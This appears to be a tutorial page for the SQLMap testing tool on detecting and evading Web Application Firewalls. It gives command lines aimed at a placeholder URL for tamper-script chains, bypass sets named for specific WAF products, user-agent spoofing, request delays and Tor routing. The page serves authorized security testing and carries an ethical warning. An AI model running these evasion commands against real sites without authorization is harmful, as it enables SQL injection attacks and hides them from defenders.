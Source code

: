 ```yaml
---
title: WAF Detection and Bypass
description: Learn how to detect and bypass Web Application Firewalls using SQLMap
---
```


# WAF Detection and Bypass

Web Application Firewalls (WAFs) are security systems designed to protect web applications from various attacks, including SQL injection. SQLMap includes features to detect and bypass WAFs during authorized security testing.

## Detecting WAFs

### Automatic WAF Detection

SQLMap can automatically detect the presence of a WAF:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --identify-waf
```

This attempts to identify if a WAF is protecting the target application and, if possible, determine which specific WAF product is in use.

### Detailed WAF Fingerprinting

For more detailed WAF fingerprinting:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --fingerprint
```

This performs a more comprehensive fingerprinting of the target, including WAF detection.

## Common WAF Bypass Techniques

### Level and Risk Adjustment

Increasing the test level and risk can help bypass some WAFs:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --level=5 --risk=3
```

Higher levels and risks use more sophisticated techniques that might evade WAF detection.

### Tamper Scripts

SQLMap's tamper scripts modify payloads to bypass WAF filters:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment,between
```

This example uses two tamper scripts:
- `space2comment`: Replaces spaces with comments
- `between`: Replaces greater-than and less-than operators with BETWEEN statements

### Chaining Multiple Tamper Scripts

You can chain multiple tamper scripts for more effective evasion:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=space2comment,between,charencode,randomcase
```

The scripts are applied in the specified order, creating a more heavily obfuscated payload.

## WAF-Specific Bypass Techniques

### ModSecurity Bypass

For ModSecurity WAF:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=modsecurityversioned,space2comment,charunicodeencode
```

### Cloudflare Bypass

For Cloudflare WAF:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=cloudflare,randomcase,charencode
```

### F5 BIG-IP ASM Bypass

For F5 BIG-IP Application Security Manager:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tamper=between,charunicodeencode,space2randomblank
```

## Advanced Evasion Settings

### Custom User-Agent

Using a legitimate-looking user agent:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36"
```

### Random User-Agent

Using a random user agent for each request:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --random-agent
```

### Request Delays

Adding delays between requests to avoid rate limiting:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --delay=2 --timeout=30
```

This adds a 2-second delay between requests and sets a 30-second timeout.

### Tor Network Routing

Routing requests through the Tor network:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --tor --tor-type=SOCKS5
```

This routes all SQLMap traffic through the Tor network, making it harder to trace.

<Note title="Ethical and Legal Warning">
WAF bypass techniques should only be used in authorized security testing scenarios. Unauthorized attempts to bypass security controls are illegal and unethical.
</Note>

## Troubleshooting WAF Bypasses

If you're having trouble bypassing a WAF:

1. Try different combinations of tamper scripts
2. Use verbose mode (`-v`) to see what's happening
3. Try different injection techniques with `--technique`
4. Use time-based blind techniques which may be harder for WAFs to detect
5. Consider using out-of-band techniques with `--dns-domain`

Remember that WAF evasion success depends on:
- The specific WAF product and its configuration
- The WAF's rule set and update status
- The specific SQL injection vulnerability
- The database management system in use

